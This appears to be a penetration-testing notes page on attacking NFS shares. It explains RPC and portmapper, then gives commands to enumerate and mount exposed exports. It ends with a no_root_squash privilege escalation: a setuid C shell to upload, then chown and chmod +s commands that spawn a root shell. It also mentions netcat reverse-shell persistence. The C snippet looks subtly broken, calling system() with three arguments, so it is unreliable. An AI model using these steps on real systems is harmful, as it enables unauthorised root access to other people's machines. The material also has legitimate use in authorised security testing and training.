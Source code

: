 # ⭕ NFS

network File System (NFS) is a distributed file system protocol originally developed by Sun Microsystems in 1984. It allows a user on a client computer to access files over a computer network as if they were on locally-mounted storage. NFS is often used with UNIX operating systems and is predominantly insecure in its implementation. It can be somewhat difficult to set up securely, so it’s not uncommon to find NFS shares open to the world. This is quite convenient for us as penetration testers, as we might be able to leverage them to collect sensitive information, escalate our privileges, and so forth.

Both Portmapper and RPCbind run on TCP port 111. RPCbind maps RPC services to the ports on which they listen. RPC processes notify rpcbind when they start, registering the ports they are listening on and the RPC program numbers they expect to serve.

The client system then contacts rpcbind on the server with a particular RPC program number. The rpcbind service redirects the client to the proper port number (often TCP port 2049) so it can communicate with the requested service.

Please note that since NFS is an RPC-based service and relies on other RPC services, such as “mountd,” it should be directly queried via the Portmapper service which is found on port TCP and/or UDP 111 when using Nmap NSE scripts for instance.

An administrator wishing to share files from an NFS server will configure what are known as “exports.” Exports are the mechanism used by NFS in order to “export” directories, in other words, make entire directories available to other users over the network. Exports configured for any given NFS server can usually be found in the “/etc/exports” file on a target host locally. For now, we’re going to focus on identifying available exports from a remote perspective. One common issue with NFS, is that oftentimes administrators will configure exports with little attention to security, and will usually “export” directories in a manner that allows any host or IP address to connect, without any authentication, and if we’re lucky, also provide write-access to directories.

## find directories (shares)

```
showmount -e [ip]
```

after finding directories we can try to mount them to our system, for example lets say we found a directory shared with which is the home directory of user "bob":

```
mkdir -p /mnt/home/bob
mount -t nfs [NFS Server IP]:/home/bob /mnt/home/bob -o nolock
cd /mnt/home/bob && ls -al
```

if we find any directories we can mount the shared directory and access it:

```
mount -t nfs <NFS Server IP>:/home/bob /mnt/home/bob -o nolock
cd /mnt/home/bob && ls -al
```

## port map with rpcinfo

NFS can be identified by probing port 2049 directly or asking the portmapper for a list of services Portmapper (AKA rpcbind) is another common service found on Linux-based systems and is used to essentially “map” RPC (Open Network Computing Remote Procedure Call or “ONC RPC,” not to be confused with Microsoft’s implementation of RPC) services to their corresponding TCP or UDP ports on a target system.

{% hint style="info" %}
Querying a single port (TCP/111), essentially enumerates all related RPC-related service ports without us having to conduct a port scan against all those ports individually.
{% endhint %}

```
nmap --script rpc-grind,rpcinfo 192.168.13.26 –p 111
rpcinfo -p [ip]
```

#### we can use a “xinetd” RPC-based UDP service combined with a netcat reverse shell, and a “port knocking” method for persistence on a host once we have access.

there are possible privilege escalation methods if NFS service is available to us, refer to [this section](https://7h3w4lk3r.gitbook.io/the-hive/network-attacks/untitled/privilege-escalation/nfs) under linux privilege escalation.

## NFS Exported Shares

List NFS exported shares:

```
showmount -e 192.168.110.102
```

and check if 'rw,no\_root\_squash' is present. If it is present, compile the below sid-shell.c:

```c
#include <unistd.h>

main( int argc, char ** argv, char ** envp )
{
    setgid(0); setuid(0); system("/bin/bash", argv, envp);
    return 0;
}
```

upload it to the share and execute the below to launch sid-shell to spawn a root shell:

```
chown root:root sid-shell; chmod +s sid-shell; ./sid-shell
```
